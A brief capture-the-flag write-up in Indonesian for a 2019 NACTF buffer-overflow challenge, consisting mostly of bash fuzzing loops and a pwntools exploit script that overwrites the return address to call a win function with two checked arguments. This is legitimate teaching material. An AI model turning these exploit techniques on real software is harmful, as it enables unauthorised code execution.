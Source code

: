 # BufferOverflow #2

<img src="bufo2.png"><br>
disini dapat melakukan overwrite menuju fungsi win, namun terdapat pengecekan pada 2 buah argumen <br>
yaitu 0x14b4da55 dan 0xf00db4be, ingat tipe data long adalah 8bytes
<br>
<br><img src="bufo2d.png"><br>



<br>


```
for i in {1..50}; do echo $i; python -c "print 'A'*$i+'\xc2\x91\x04\x08'"| ./bufover-2 ;done
```

<br>

```
for i in {1..50}; do echo $i; python -c "print 'A'*28+'\xc2\x91\x04\x08' + 'A'*$i + '\x55\xDA\xB4\x14\x00\x00\x00\x00\xBE\xB4\x0D\xF0'"| ./bufover-2 ;done
```

<br>

```
from pwn import *

#r = process('./bufover-2')
r = remote('shell.2019.nactf.com', 31184)

win = p32(0x80491c2)
arg1 = p64(0x14b4da55)
arg2 = p32(0xf00db4be)
buff = 'A'*28

payload = buff + win + 'AAAA' + arg1 + arg2

r.sendline(payload)
r.interactive()
```
